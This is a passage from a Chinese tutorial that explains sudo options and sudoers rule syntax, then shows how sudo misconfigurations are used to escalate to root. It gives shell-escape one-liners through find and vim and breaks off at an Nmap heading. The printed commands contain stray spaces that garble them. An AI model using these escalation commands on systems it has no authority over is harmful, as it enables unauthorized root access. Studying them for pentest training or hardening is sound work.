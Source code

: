 *   -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    
*   -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    
*   command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
    

### Sudoer 文件

#### sudoers 文件主要有三部分组成：

*   sudoers 的默认配置（default），主要设置 sudo 的一些缺省值
    
*   alias（别名），主要有  
    Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
    
*   安全策略（规则定义）——**重点**。
    

语法

root ALL=(ALL) ALL

说明 1：root 用户可以从  ALL 终端作为  ALL（任意）用户执行，并运行  ALL（任意）命令。

第一部分是用户，第二部分是用户可以在其中使用 sudo 命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff

说明 2：以上命令，使用户可以从任何终端使用 **touhid**** 的用户密码 ** 关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find

说明 3：上面的命令，使用户可以从任何终端运行，以 **root** 用户身份运行命令 find **而无需密码**。

### 利用 SUDO 用户

要利用 sudo 用户，您需要找到您必须允许的命令。  
sudo -l

上面的命令显示了允许当前用户使用的命令。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmib8uk9uTj4IP1U0bJnApeoAiasWJkn3iaMOYLAVrSoR5V15Xr3SYv77dKA/640?wx_fmt=jpeg)

此处 sudo -l，显示用户已允许以 root 用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给 **root** 用户。

### **使用查找命令**

sudo find / etc / passwd -exec / bin / sh \;

要么

sudo find / bin -name nano -exec / bin / sh \;

### **使用** Vim **命令**

sudo vim -c’！sh’

### **使用** Nmap **命令**
